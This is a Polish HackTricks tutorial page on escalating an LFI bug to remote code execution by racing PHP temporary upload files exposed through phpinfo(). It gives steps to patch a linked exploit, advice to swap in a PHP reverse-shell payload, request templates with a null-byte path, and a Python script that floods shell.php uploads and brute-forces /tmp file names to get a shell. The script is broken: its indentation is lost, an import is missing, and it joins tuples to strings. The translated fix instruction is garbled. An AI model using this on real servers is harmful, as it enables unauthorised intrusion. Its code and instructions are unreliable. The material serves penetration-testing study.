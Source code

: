 {% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Uzyskaj perspektywę hakera na swoje aplikacje webowe, sieć i chmurę

**Znajdź i zgłoś krytyczne, wykorzystywalne luki w zabezpieczeniach, które mają rzeczywisty wpływ na biznes.** Użyj naszych 20+ niestandardowych narzędzi, aby zmapować powierzchnię ataku, znaleźć problemy z bezpieczeństwem, które pozwalają na eskalację uprawnień, oraz użyj automatycznych exploitów, aby zebrać niezbędne dowody, przekształcając swoją ciężką pracę w przekonujące raporty.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


Aby wykorzystać tę lukę, potrzebujesz: **Luki LFI, strony, na której wyświetlany jest phpinfo(), "file\_uploads = on" oraz serwer musi mieć możliwość zapisu w katalogu "/tmp".**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

Musisz naprawić exploit (zmień **=>** na **=>**). Aby to zrobić, możesz:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
Musisz również zmienić **ładunek** na początku exploita (na przykład na php-rev-shell), **REQ1** (to powinno wskazywać na stronę phpinfo i powinno zawierać padding, tzn.: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), oraz **LFIREQ** (to powinno wskazywać na lukę LFI, tzn.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Sprawdź podwójne "%" podczas wykorzystywania znaku null)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### Teoria

Jeśli przesyłanie plików jest dozwolone w PHP i próbujesz przesłać plik, ten plik jest przechowywany w tymczasowym katalogu, aż serwer zakończy przetwarzanie żądania, a następnie ten tymczasowy plik jest usuwany.

Jeśli znajdziesz lukę LFI w serwerze WWW, możesz spróbować odgadnąć nazwę utworzonego pliku tymczasowego i wykorzystać RCE, uzyskując dostęp do pliku tymczasowego, zanim zostanie on usunięty.

W **Windows** pliki są zazwyczaj przechowywane w **C:\Windows\temp\php**

W **linux** nazwa pliku zwykle jest **losowa** i znajduje się w **/tmp**. Ponieważ nazwa jest losowa, konieczne jest **wyodrębnienie skądś nazwy pliku tymczasowego** i uzyskanie do niego dostępu, zanim zostanie usunięty. Można to zrobić, odczytując wartość **zmiennej $\_FILES** wewnątrz treści funkcji "**phpconfig()**".

**phpinfo()**

**PHP** używa bufora o rozmiarze **4096B** i gdy jest **pełny**, jest **wysyłany do klienta**. Następnie klient może **wysłać** **dużo dużych żądań** (używając dużych nagłówków) **przesyłając php** reverse **shell**, czekać na **pierwszą część phpinfo()** (gdzie znajduje się nazwa pliku tymczasowego) i spróbować **uzyskać dostęp do pliku tymczasowego** zanim serwer php usunie plik, wykorzystując lukę LFI.

**Skrypt Pythona do próby bruteforce nazwy (jeśli długość = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Uzyskaj perspektywę hakera na swoje aplikacje webowe, sieć i chmurę

**Znajdź i zgłoś krytyczne, wykorzystywalne luki w zabezpieczeniach, które mają rzeczywisty wpływ na biznes.** Użyj naszych 20+ niestandardowych narzędzi, aby zmapować powierzchnię ataku, znaleźć problemy z bezpieczeństwem, które pozwalają na eskalację uprawnień, oraz użyj zautomatyzowanych exploitów, aby zebrać niezbędne dowody, przekształcając swoją ciężką pracę w przekonujące raporty.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
